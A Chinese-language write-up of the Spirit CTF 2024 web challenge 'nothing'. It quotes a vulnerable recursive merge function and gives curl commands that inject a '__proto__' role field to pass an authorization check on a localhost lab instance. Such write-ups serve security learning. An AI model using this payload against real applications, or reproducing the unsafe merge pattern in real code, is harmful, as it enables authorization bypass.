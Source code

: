 # Spirit CTF 2024 题解 - nothing
查看源码，`index.js`里头有明显的`merge`构造

```js
const updateInfo = (dest, src) => {
    for (const key in src) {
        if (
            key in dest && typeof dest[key] === "object" &&
            typeof src[key] === "object"
        ) {
            updateInfo(dest[key], src[key]);
        } else {
            dest[key] = src[key];
        }
    }
};
```

要构造原型链污染，目标是把`/flag`路由里头的`user.role`污染成"setsumi"

```js
app.get("/flag", (req, res) => {
    if (!req.session.loggedIn) {
        res.redirect("/login");
        return;
    }

    if (req.session.user.role === "setsumi") {
        res.render("flag", { flag: process.env.FLAG });
        return;
    }

    res.render("flag", { error: "You are not setsumi!" });
});
```

`user`的构造位置在`/register`路由里头

```js
app.post("/register", (req, res) => {
    const { username, password } = req.body;
    if (users[username]) {
        res.render("register", { error: "Username already exists" });
        return;
    }

    users[username] = { username, password }; // 注意这一行
    res.render("login", { success: "User registered successfully" });
});
```

于是我们往`Object`原型里加个值为"setsumi"的`role`字段就能过鉴权，入口在`/info`路由

```shell
curl 'http://localhost:8080/info' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -H 'Cookie: <cookie>' --data-raw 'info={ "bio": "111", "age": "222", "__proto__": { "role": "setsumi" }}'
curl -s 'http://localhost:8080/flag' -H 'Cookie: <cookie>' | grep Spirit
```

![](<./img/Pasted image 20241026212651.png>)
